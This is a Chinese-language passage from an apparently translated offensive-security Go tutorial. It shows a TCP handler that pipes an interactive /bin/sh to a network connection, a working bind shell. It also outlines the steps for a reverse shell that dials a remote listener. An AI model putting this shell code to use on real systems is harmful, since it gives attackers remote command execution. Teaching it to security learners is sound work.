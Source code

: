 使用 PipeReader 和 PipeWriter 来避免必须显示地排空 writer，并且同步连接 stdout 和 TCP链接。再次重写处理函数：
```go
func handle(conn net.Conn) {
    // Explicitly calling /bin/sh and using -i for interactive mode 
    // so that we can use it for stdin and stdout.
    // For Windows use exec.Command("cmd.exe").
    cmd := exec.Command("/bin/sh", "-i")
    // Set stdin to our connection
    rp, wp := io.Pipe()❶
    cmd.Stdin = conn
  ❷ cmd.Stdout = wp 
  ❸ go io.Copy(conn, rp)
    cmd.Run()
    conn.Close() }
```

调用 io.Pipe() 创建了同步连接的 reader 和 writer —— 任何写入到 writer（即 wp ） 的数据都会被 reader (rp) 读取。因此，将 writer 赋值给 cmd.Stdout ，然后使用 Copy(Writer, Reader) 将 PipeReader 连接到 TCP 的链接。使用 goroutine 防止代码阻塞。命令的任何标准输出都将发送到 writer ，然后通过管道将 reader 的输出传送到TCP的链接。如此以来就优雅了吧？

这样，就从 TCP 等待连接的的角度成功实现了 Netcat 的巨大的安全漏洞。可以使用类似的逻辑来实现从连接的客户端将本地执行文件的 stdout 和 stdin 重定向到远程监听器。详细的细节留给您确定，但可能包括以下内容：

* 通过 net.Dial(network, address string) 和远程监听器建立连接。
* 使用 exec.Command(name string, arg ...string) 实例化一个 Cmd。
* 将 net.Conn 对象直接赋值给 Stdin 和 Stdout 。
* 运行命令。

至此，监听器应该能收到连接。发送到客户端的任何数据应在客户端上作为 stdin 处理，而在侦听器上接收的任何数据应作为 stdout 处理。该示例的完整代码在 *[https://github.com/blackhat-go/bhg/ch-2/netcat-exec/](https://github.com/blackhat-go/bhg/ch-2/netcat-exec/)*

## 总结

现在，您已经能开发实际的应用，学会了与网络，I/O 和并发相关的Go 的用法，接下来继续创建可用的 HTTP 客户端。
